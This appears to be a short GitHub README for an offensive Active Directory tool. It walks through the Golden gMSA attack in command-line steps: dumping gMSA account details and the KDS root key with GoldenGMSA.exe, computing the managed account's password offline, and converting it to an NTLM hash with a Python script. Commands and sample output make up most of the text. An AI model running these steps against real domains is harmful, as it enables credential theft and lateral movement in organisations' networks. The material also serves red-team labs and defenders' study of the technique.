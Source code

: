 # GoldenGMSAPwdHash
Calculate Password hash from the extracted GMSA Base64 Password String.

**Obtain GMSA Account Information**

```bash
GoldenGMSA.exe gmsainfo -d us.techcorp.local

sAMAccountName:         jumpone$
objectSid:                      S-1-5-21-210670787-2521448726-163245708-8601
rootKeyGuid:            03239602-ab96-d31f-3fe6-24ea819a66f6
msds-ManagedPasswordID: AQAAAEtEU0sCAAAAaAEAAAgAAAAJAAAAApYjA5arH9[..snip..]
```

**Extract the KDS Root Key**

```bash
GoldenGMSA.exe kdsinfo --forest us.techcorp.local

Guid:           03239602-ab96-d31f-3fe6-24ea819a66f6
Base64 blob:    AQAAAAKWIwOWqx/TP+Yk6oGaZvYAAAAAAQAAAAA[..snip..]
```

**Calculate Pasword Offline**

```bash
GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey BASE64_BLOB_DATA --pwdid MSDS-MANAGEDPASSWORDID

Base64 Encoded Password:        ZSWQIz5mLbEcw6mm8J49DWCADxDT703UPFLbRftDTqE7WzAf[..snip..]
```

**Calculage NT HASH**

```bash
python3 goldengmsapwdhash.py --password XyQLsufa2UdpxPeVN0Gj6Zv7nCTvb92[..snip..]
 
NTLM Hash: a2*******************************80
```
